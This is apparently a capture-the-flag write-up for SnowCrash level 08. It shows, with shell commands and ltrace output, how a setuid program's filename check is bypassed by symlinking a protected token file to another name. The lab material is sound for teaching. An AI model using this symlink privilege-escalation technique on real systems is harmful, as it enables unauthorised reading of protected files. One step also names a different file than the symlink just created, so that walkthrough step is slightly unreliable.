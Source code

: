# LEVEL 08

## Vulnerability & exploit

No check on real user => Privilege escalation via symlink

## Eternal resources

ltrace

## Initial context

In our home directory, we see an executable with suid/guid and extended permissions (ACL), as well as a token file we don't have access to:

```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

## Solving the challenge

If we try with a file we own, the executable displays its content:

```
level08@SnowCrash:~$ echo 'HELLO' > /tmp/test && ./level08 /tmp/test
HELLO
```

But it won't work with the token file:

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

So what happens if we try to create a symlink to token?

```
level08@SnowCrash:~$ ln -s $(pwd)/token /tmp/token
level08@SnowCrash:~$ ls -l /tmp/token
lrwxrwxrwx 1 level08 level08 24 Oct 23 02:18 /tmp/token -> /home/user/level08/token
```

Now if we run the program with this file:

```
level08@SnowCrash:~$ ./level08 /tmp/mytoken
You may not access '/tmp/mytoken'
```

It still doesn't work... let's debug this to see what's happening:

```
level08@SnowCrash:~$ ltrace ./level08 /tmp/mytoken
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/mytoken", "token")                                 = "token"
printf("You may not access '%s'\n", "/tmp/mytoken"You may not access '/tmp/mytoken'
)             = 34
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

The name of the file is checked for presence of the word "token", so we should make sure our file is named differently:

```
level08@SnowCrash:~$ ln -s $(pwd)/token /tmp/password
level08@SnowCrash:~$ ./level08 /tmp/password
XXXXXXXXXXXXXXXXXXXXXXXXXx
```
